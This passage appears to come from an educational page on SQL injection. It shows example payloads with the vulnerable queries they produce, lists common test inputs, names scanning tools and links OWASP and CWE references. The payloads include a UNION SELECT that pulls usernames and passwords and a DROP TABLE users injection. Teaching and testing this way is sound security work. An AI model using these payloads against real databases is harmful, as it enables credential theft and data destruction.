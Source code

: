 ### Data Extraction

**Attack:**
```
productId=1 UNION SELECT username, password, NULL FROM users --
```

**Vulnerable Query:**
```sql
SELECT name, price, description FROM products WHERE id = 1 UNION SELECT username, password, NULL FROM users --
```

### Database Manipulation

**Attack:**
```
userId=1; DROP TABLE users; --
```

**Vulnerable Query (if multiple statements allowed):**
```sql
SELECT * FROM users WHERE id = 1; DROP TABLE users; --
```

---

## 🧪 Testing for SQL Injection

### Common Test Inputs:
- `'` (single quote) - causes syntax error if vulnerable
- `' OR '1'='1` - common bypass attempt
- `'; DROP TABLE users; --` - destructive test
- `1' UNION SELECT NULL, NULL --` - data extraction test

### Automated Tools:
- **SQLMap** - Automated SQL injection detection and exploitation
- **OWASP ZAP** - Web application security scanner
- **Burp Suite** - Professional security testing

---

## 📚 Additional Resources

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [OWASP Top 10 - Injection](https://owasp.org/www-project-top-ten/)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
- [SQL Injection on PortSwigger](https://portswigger.net/web-security/sql-injection)

---

## 🎯 Quick Reference
